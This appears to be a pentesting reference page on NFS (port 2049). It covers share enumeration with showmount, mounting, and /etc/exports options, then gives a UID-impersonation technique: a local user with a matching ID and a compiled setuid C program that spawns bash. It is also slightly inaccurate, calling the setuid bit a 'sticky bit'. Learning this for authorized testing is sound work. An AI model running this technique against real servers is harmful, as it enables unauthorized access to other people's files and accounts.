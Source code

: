 ```yaml
---
title: PORT 2049/tcp - NFS
category: Services
order: 12
---
```


Network File System is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

# Enumeration

`showmount` gives us the opportunity to know which folder are available for us.

```
showmount -e <IP>
```

# Mounting the folder

We can mount the folder with `mount` command.

```
mount -t nfs [-o vers=2] <IP>:<NFS_FOLDER> <LOCAL_FOLDER> -o nolock
```

# Configuration

The file `/etc/exports` show the NFS configuration applied on the server.

```
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash
```

* `rw`: Means that we can read and write any file on the share.
* `root_squash` (default): Maps all the requests from UID/GID 0 to the anonymous UID/GID.
* `no_root_squash`: All requests from UID/GID 0 are not mapped to the anonymous UID/GID.
* `no_all_squash` (default): Not map all the requests from other UID/GID to the anonymous UID/GID .

> **Note**: If we have access to the server and a NFS share has this configuration, we can impersonate any user on the attack machine except for the root user.

# Impersonate a User (No Root)

So what we’ll do is add the user frank (user to impersonate) on our kali machine and change his id to 1000 (Assigned on the target).

```
❯ useradd frank
❯ cat /etc/passwd | grep frank
frank:x:1000:1000::/home/frank:/bin/sh
```

> **Note**: You can change any ID by modifying the `/etc/passwd` file.

Next step is create a `setuid.c` file:

```
#include <unistd.h>
int main()
{
    setreuid(1000,1000);
    execl("/bin/bash", "bash", (char *)NULL);
    return 0;
}
```

Then compile it:

```
gcc setuid.c -o setuid
```

Set the sticky bit on the file:

```
chmod u+s setuid
```

And execute it on the target machine.

# References

* [https://book.hacktricks.xyz/pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)
* [https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/](https://ethicalhackingguru.com/how-to-enumerate-and-exploit-nfs-shares/)
